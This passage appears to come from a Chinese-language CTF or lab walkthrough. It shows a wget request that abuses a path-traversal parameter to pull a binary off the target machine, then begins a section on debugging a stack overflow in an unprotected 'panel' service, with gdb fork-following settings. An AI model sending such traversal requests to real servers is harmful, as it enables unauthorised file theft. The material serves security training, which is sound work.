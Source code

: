 ```plain
wget http://pinkydb:7654/pageegap.php?1337=../../../../../../../home/stefano/tools/qsub -O qsub
```

[![](assets/1703831476-82824f68bd1680109022750e605bc95b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224714-d2c11b04-a4c6-1.png)

### 3）栈溢出深入探索

panel程序（ELF 64-bit），未开启防护

[![](assets/1703831476-4ed88bafebc16ae0c9497ce1b5d5d4ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224721-d6f95006-a4c6-1.png)

#### 3.1 可能会遇到的问题

<1>在gdb运行该程序，(gdb) run 第一次连接正常，但第二次(gdb) run 会报错`[-] binding to socket`，每次再次调试都得`killall panel`关掉进程再运行成才行，极不方便。

<2>经过测试发现，每次nc连接输入后，程序会再次创建一个子进程。gdb默认跟踪的是父进程，会看不到子进程的具体内容。所以让gdb跟踪子进程，再将父进程设置为暂停状态，就不用反复关进程了

```plain
set follow-fork-mode child
set detach-on-fork off
```
